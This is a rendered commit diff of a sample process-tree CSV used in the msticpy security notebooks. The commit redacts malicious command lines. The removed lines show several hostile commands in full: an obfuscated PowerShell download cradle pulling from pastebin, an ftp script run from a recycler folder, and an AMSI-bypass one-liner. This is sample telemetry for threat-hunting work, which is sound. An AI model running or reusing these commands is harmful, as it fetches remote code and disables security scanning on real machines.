

Before and after one commit to microsoft/msticpy, a CSV file: docs/notebooks/data/process_tree.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/docs/notebooks/data/process_tree.csv
+++ b/docs/notebooks/data/process_tree.csv
-O2 (CommandLine): .\ftp -s:C:\RECYCLER\xxppyy.exe
+O2 (CommandLine): .\ftp -s:C:\****REDACTED-MALWARE-SIG****.exe
-O52 (CommandLine): …-command "(New-Object Net.WebClient).DownloadString(('ht'+'tp://pasteb' + 'bin/'+'raw/'+'pqCwEm17'));"
+O52 (CommandLine): …-command "(New-Object Net.WebClient).DownloadString(('****REDACTED-MALWARE-SIG****'));"
-O77 (CommandLine): …/c echo createobject"msxml2.xmlhttp")
+O77 (CommandLine): …/c echo createobject"msx****REDACTED-MALWARE-SIG****")
-O79 (CommandLine): .\powershell.exe -command [ref].assembly.gettype('http://system.management.automation.amsiutils').getfield('amsiinitfailed','nonpublic,static').setvalue($null,$true)\"
+O79 (CommandLine): .\powershell.exe -command [ref].****REDACTED-MALWARE-SIG****.gettype('****REDACTED-MALWARE-SIG****').getfield('****REDACTED-MALWARE-SIG****').setvalue($null,$true)\"
```
Also changed, not shown: 12 edited cells elsewhere in this file, docs/notebooks/data/ioc_df.csv, 3 other files.
